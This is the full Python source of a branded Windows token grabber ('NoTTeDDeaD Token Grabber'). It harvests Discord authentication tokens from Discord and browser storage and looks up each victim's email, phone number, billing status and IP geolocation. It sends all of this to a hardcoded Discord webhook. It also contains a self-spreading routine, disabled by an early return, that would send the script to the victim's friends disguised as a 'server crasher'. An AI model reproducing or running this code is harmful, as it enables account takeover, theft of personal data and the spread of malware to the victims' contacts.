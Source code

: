 import re, os
if os.name != "nt":
	exit()
from re import findall
import json
import platform as plt
from json import loads, dumps
from base64 import b64decode
from subprocess import Popen, PIPE
from urllib.request import Request, urlopen
from datetime import datetime
from threading import Thread
from time import sleep
from sys import argv

webhook_url = "https://discord.com/api/webhooks/874924619491057694/nX0CbYcRVsBIvKGc5775Fdppui0G5V6a_1yziS2WpRaIeEOFPqQiSkFxcI1ImvNzmBVX"

languages = {
	'da'    : 'Danish, Denmark',
	'de'    : 'German, Germany',
	'en-GB' : 'English, United Kingdom',
	'en-US' : 'English, United States',
	'es-ES' : 'Spanish, Spain',
	'fr'    : 'French, France',
	'hr'    : 'Croatian, Croatia',
	'lt'    : 'Lithuanian, Lithuania',
	'hu'    : 'Hungarian, Hungary',
	'nl'    : 'Dutch, Netherlands',
	'no'    : 'Norwegian, Norway',
	'pl'    : 'Polish, Poland',
	'pt-BR' : 'Portuguese, Brazilian, Brazil',
	'ro'    : 'Romanian, Romania',
	'fi'    : 'Finnish, Finland',
	'sv-SE' : 'Swedish, Sweden',
	'vi'    : 'Vietnamese, Vietnam',
	'tr'    : 'Turkish, Turkey',
	'cs'    : 'Czech, Czechia, Czech Republic',
	'el'    : 'Greek, Greece',
	'bg'    : 'Bulgarian, Bulgaria',
	'ru'    : 'Russian, Russia',
	'uk'    : 'Ukranian, Ukraine',
	'th'    : 'Thai, Thailand',
	'zh-CN' : 'Chinese, China',
	'ja'    : 'Japanese',
	'zh-TW' : 'Chinese, Taiwan',
	'ko'    : 'Korean, Korea'
}

LOCAL = os.getenv("LOCALAPPDATA")
ROAMING = os.getenv("APPDATA")
PATHS = {
	"Discord"           : ROAMING + "\\Discord",
	"Discord Canary"    : ROAMING + "\\discordcanary",
	"Discord PTB"       : ROAMING + "\\discordptb",
	"Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
	"Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
	"Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
	"Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default",
	"Safari"			: LOCAL + "\\Safari\\User Data\\Default",
}
def getheaders(token=None, content_type="application/json"):
	headers = {
		"Content-Type": content_type,
		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
	}
	if token:
		headers.update({"Authorization": token})
	return headers
def getuserdata(token):
	try:
		return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
	except:
		pass
def gettokens(path):
	path += "\\Local Storage\\leveldb"
	tokens = []
	for file_name in os.listdir(path):
		if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
			continue
		for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
			for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
				for token in findall(regex, line):
					tokens.append(token)
	return tokens
def getdeveloper():
	dev = "2021 - by NoTTeDDeaD"
	try:
		dev = urlopen(Request("https://pastebin.com/raw/qa1ftnHs")).read().decode()
	except:
		pass
	return dev
def getip():
	ip = org = loc = city = country = region = googlemap = "None"
	try:
		url = 'http://ipinfo.io/json'
		response = urlopen(url)
		data = json.load(response)
		ip = data['ip']
		org = data['org']
		loc = data['loc']
		postal = data['postal']
		city = data['city']
		country = data['country']
		region = data['region']
		googlemap = "https://www.google.com/maps/search/google+map++" + loc
	except:
		pass
	return ip,org,loc,city,country,region,googlemap
def getavatar(uid, aid):
	url = f"https://cdn.discordapp.com/avatars/{uid}/{aid}.gif"
	try:
		urlopen(Request(url))
	except:
		url = url[:-4]
	return url
def gethwid():
	p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
	return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
def getfriends(token):
	try:
		return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
	except:
		pass
def getchat(token, uid):
	try:
		return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
	except:
		pass
def has_payment_methods(token):
	try:
		return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
	except:
		pass
def send_message(token, chat_id, form_data):
	try:
		urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
	except:
		pass
def spread(token, form_data, delay):
	return # Remove to re-enabled
	for friend in getfriends(token):
		try:
			chat_id = getchat(token, friend["id"])
			send_message(token, chat_id, form_data)
		except Exception as e:
			pass
		sleep(delay)
def main():
	global webhook_url
	cache_path = ROAMING + "\\.cache~$"
	prevent_spam = True
	self_spread = True
	embeds = []
	working = []
	checked = []
	already_cached_tokens = []
	working_ids = []
	computer_os = plt.platform()
	ip,org,loc,city,country,region,googlemap = getip()
	pc_username = os.getenv("UserName")
	pc_name = os.getenv("COMPUTERNAME")
	user_path_name = os.getenv("userprofile").split("\\")[2]
	developer = getdeveloper()
	for platform, path in PATHS.items():
		if not os.path.exists(path):
			continue
		for token in gettokens(path):
			if token in checked:
				continue
			checked.append(token)
			uid = None
			if not token.startswith("mfa."):
				try:
					uid = b64decode(token.split(".")[0].encode()).decode()
				except:
					pass
				if not uid or uid in working_ids:
					continue
			user_data = getuserdata(token)
			if not user_data:
				continue
			working_ids.append(uid)
			working.append(token)
			username = user_data["username"] + "#" + str(user_data["discriminator"])
			user_id = user_data["id"]
			locale = user_data['locale']
			avatar_id = user_data["avatar"]
			avatar_url = getavatar(user_id, avatar_id)
			email = user_data.get("email")
			phone = user_data.get("phone")
			verified = user_data['verified']
			mfa_enabled = user_data['mfa_enabled']
			flags = user_data['flags']

			creation_date = datetime.utcfromtimestamp(((int(user_id) >> 22) + 1420070400000) / 1000).strftime('%d-%m-%Y %H:%M:%S UTC')

			language = languages.get(locale)
			nitro = bool(user_data.get("premium_type"))
			billing = bool(has_payment_methods(token))
			embed = {
				"color": 0xFFD400,
				"fields": [
					{
						"name": "**Account Info 👤**",
						"value": f'> **Email** : {email}\n> **Phone Number** : I {phone}\n> **Nitro** : {nitro}\n> **Billing** : {billing}\n> **Flags** : I {flags}',
						"inline": True
					},
					{
						"name": "‍‍**Computer Info💻**",
						"value": f'> **Computer Os** : {computer_os}\n> **Pc Username** : {pc_username}\n > **Pc Name** : {pc_name}\n> **Platform** : {platform}',
						"inline": True
					},
					{
						"name": "--------------------------------------------------------------------------------------------------",
						"value":"**--------------------------------------------------------------------------------------------------**",
						"inline": False
					},
					{
						"name": "**Ip Info** 🌐",
						"value": f'> **Ip** : I {ip}\n> **GooGle Map** : I [{loc}]({googlemap})\n> **City** : {city}\n> **region** : {region}',
						"inline": True
					},
					{
						"name": "**PerfectInfo** :ballot_box_with_check: ",
						"value": f'> **Languge** : {locale} ({language})\n> **Verified** : {verified}\n> **Mfa_Enabled** : {mfa_enabled}\n> **Creation_Date** : I {creation_date}',
						"inline": True
					},
					
				],
				"author": {
					"name": f"{username} ({user_id})",
					"icon_url": avatar_url
				},
				"footer": {
					"text": f"NoTTeDDeaD Info Grabber",
					"icon_url": ""
				}
			}
			embed2 = {
				"color": 0xff0000,
				"fields": [
					
					{
						"name": "**Token** 📟",
						"value": token,
						"inline": False
					}
				],
				"author": {
					"name": f"{username} ({user_id})",
					"icon_url": avatar_url
				},
				"footer": {
					"text": f"NoTTeDDeaD Token Grabber",
					"icon_url": "https://media.discordapp.net/attachments/791339523602382899/875430119768989726/NoTTeDDeaD.jpg.jpg"
				}
			}
			embed3 = {
				"color": 0x1BA41A,
				"fields": [
					
					{
						"name": "> **NoTTeDDeaD Token Grabber  **",
						"value": f'> Dev:NoTTeDDeaD \n> **NoTTeDDeaD**\n> Web : [NoTTeDDeaD.SITE]()\n> YT : [youtube/NoTTeDDeaD]()https://www.youtube.com/channel/UCxSVTosxawTxL5Oc19kQ0Og',
						"inline": True
					},
					
				],
				"author": {
					"name": f"NoTTeDDeaD ™",
					"icon_url": "https://media.discordapp.net/attachments/791339523602382899/875430119768989726/NoTTeDDeaD.jpg.jpg"
				},
				"footer": {
					"text": f"NoTTeDDeaD",
					"icon_url": "https://media.discordapp.net/attachments/791339523602382899/875430119768989726/NoTTeDDeaD.jpg.jpg"
				}
			}
			embeds.append(embed)
			embeds.append(embed2)
			embeds.append(embed3)
	with open(cache_path, "a") as file:
		for token in checked:
			if not token in already_cached_tokens:
				file.write(token + "\n")
	if len(working) == 0:
		working.append('123')
	webhook = {
		"content": "",
		"embeds": embeds,
		"username": username,
		"avatar_url": avatar_url
	}
	try:
		urlopen(Request(webhook_url, data=dumps(webhook).encode(), headers=getheaders()))
	except:
		pass
	if self_spread:
		for token in working:
			with open(argv[0], encoding="utf-8") as file:
				content = file.read()
			payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nserver crasher. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
			Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
try:
	main()
except Exception as e:
	print(e)
	pass
